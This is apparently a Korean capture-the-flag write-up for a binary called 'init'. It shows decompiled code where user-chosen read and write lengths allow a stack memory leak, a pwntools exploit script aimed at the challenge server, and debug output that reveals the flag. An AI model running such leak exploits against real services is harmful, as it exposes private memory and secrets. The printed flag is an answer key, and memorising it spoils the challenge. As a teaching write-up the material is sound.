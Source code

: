 `#read` `#leak`

# init
1. [Description](#description)
2. [일단 실행](#일단-실행)
3. [취약점 파악](#취약점-파악)
4. [exploit.py](#exploit.py)
5. [FLAG](#flag)

## Description
> 서버 바이너리에는 정상적으로 플래그가 있습니다
> nc 121.170.91.17 9901
> [init](https://drive.google.com/uc?authuser=0&id=1IIQkcbDemlX3ceIQhWfu-o5zeqcdh3_D&export=download)

## 일단 실행
```
# ./init
Do you want to do?
[R]ead
[W]rite
[E]xit
>>>
```
읽고 쓰고가 가능해보임

## 취약점 파악
```
    44          printf("length: ", &v5);                // [R]ead
    45          __isoc99_scanf("%d", &len);
    46          v3 = &buf;
    47          read(0, &buf, len);
    48        }
    49        if ( v5 != 'W' )
    50          break;
    51        printf("length: ", &v5);                  // [W]rite
    52        __isoc99_scanf("%d", &len);
    53        v3 = &buf;
    54        write(1, &buf, len);
```
`[R]ead` 와 `[W]rite` 는 길이 len 을 직접 사용자로부터 입력받는다.
메모리 leak 이 가능해보임

## exploit.py
```
     1  from pwn import *
     2
     3  r = remote('121.170.91.17', 9901)
     4  r.recvuntil('>>> ')
     5  r.send('W')
     6  r.recvuntil(': ')
     7  r.sendline(str(0x50-8+1))
     8  r.interactive()
```
## FLAG

```
[DEBUG] Sent 0x1 bytes:
    'W' * 0x1
[DEBUG] Received 0x8 bytes:
    'length: '
[DEBUG] Sent 0x3 bytes:
    '73\n'
[*] Switching to interactive mode
[DEBUG] Received 0x49 bytes:
    00000000  68 81 67 18  26 7f 00 00  ff b5 f0 00  00 00 00 00  │h·g·│&···│····│····│
    00000010  01 00 00 00  00 00 00 00  ed 6a 45 ae  6f 55 00 00  │····│····│·jE·│oU··│
    00000020  64 69 6d 69  7b 41 31 31  30 63 41 74  33 5f 31 73  │dimi│{A11│0cAt│3_1s│
    00000030  5f 24 6f 5f  31 6d 70 30  72 74 40 6e  37 7d 00 00  │_$o_│1mp0│rt@n│7}··│
    00000040  c0 cc 26 da  ff 7f 00 00  00                        │··&·│····│·│
    00000049
h\x81g\x18&\x7f\x00\x00\xff\xb5\x00\x00\x00\x00\x00\x00\x00\x00\x00jE\xaeoU\x00\x00dimi{A110cAt3_1s_$o_1mp0rt@n7}\x00\x00&\x7f\x00\x00\x00
```
